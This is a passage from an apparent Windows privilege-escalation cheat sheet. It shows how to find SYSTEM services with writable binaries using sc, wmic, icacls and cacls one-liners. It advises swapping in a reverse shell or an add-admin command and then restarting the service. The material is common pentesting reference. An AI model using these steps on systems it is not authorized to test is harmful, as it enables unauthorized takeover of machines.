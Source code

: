 Links running processes to started services

```
tasklist /SVC
```

## Incorrect permissions in services

A service running as Administrator/SYSTEM with incorrect file permissions might allow PE. You can replace the binary, restart the service and get system.

We are interested in services where permissions are: **BUILTIN\Users** with **(F)** or **(C)** or **(M)** for our group. More info about permissions:

```
https://msdn.microsoft.com/en-us/library/bb727008.aspx
```

Common exploitation payloads involve: Replacing the affecting binary with a reverse shell or a command that creates a new user and adds it to the Administrator group. Replace the affected service with your payload and and restart the service running:

```
wmic service NAMEOFSERVICE call startservice
net stop [service name] && net start [service name]
```

```
sc start/stop serviceName
```

#### Obtain the permission string of all services

```
sc query state= all | findstr "SERVICE_NAME:" >> a & FOR /F "tokens=2 delims= " %i in (a) DO @echo %i >> b & FOR /F %i in (b) DO @(@echo %i & @sc sdshow %i & @echo ---------) & del a 2>nul & del b 2>nul
```

The following commands will print the affected services:

```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"
```

If wmic is not available we can use sc.exe:

```
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

You can also manually check each service using cacls:

```
cacls "C:\path\to\file.exe"
```
